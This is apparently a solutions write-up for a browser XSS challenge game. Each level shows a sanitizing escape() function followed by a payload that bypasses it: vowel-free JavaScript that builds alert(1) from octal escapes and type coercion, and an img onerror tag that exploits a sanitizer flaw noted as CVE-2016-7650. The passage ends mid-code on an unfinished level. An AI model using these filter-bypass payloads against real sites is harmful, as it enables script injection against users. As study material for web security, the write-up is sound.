 ## K'Z'K' 1
```js
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    return '<script>console.log("' + s + '");</script>';
}
```
Payload: `"+[]["f\151ll"]["c\157nstr\165ct\157r"]("\141l\145rt(1)")()+"`

## K'Z'K' 2 + K'Z'K' 3
```js
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels and escape sequences in honor of K'Z'K 
    // y is only sometimes a vowel, so it's only removed as a literal
    s = s.replace(/[aeiouy]|\\((x|u00)([46][159f]|[57]5)|1([04][15]|[15][17]|[26]5))/gi, '')
    // remove certain characters that can be used to get vowels
    s = s.replace(/[{}!=<>]/g, '');
    return '<script>console.log("' + s + '");</script>';
}
```
Payload: `");[]["f"+([][2]+'')[5]+"ll"]["c"+([]["f"+([][2]+'')[5]+"ll"]+'')[6]+"nstr"+([][2]+'')[0]+"ct"+([]["f"+([][2]+'')[5]+"ll"]+'')[6]+"r"](([][2]/2+'')[1]+"l"+([][2]+'')[3]+"rt(1)")()//`

## Fruit 1 + Fruit 2
```js
// CVE-2016-7650
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```
Payload: `<img/a/src=le x/onerror='alert(1)'/>`

## Fruit 3
> TODO

## Capitals
```js
// submitted by msamuel
function escape(s) {
  var capitals = {
    "CA": {
      "AB": "Edmonton",
      "BC": "Victoria",
      "MB": "Winnipeg",
      // etc.
    },
    "US": {
      // Alabama changed its state capital.
```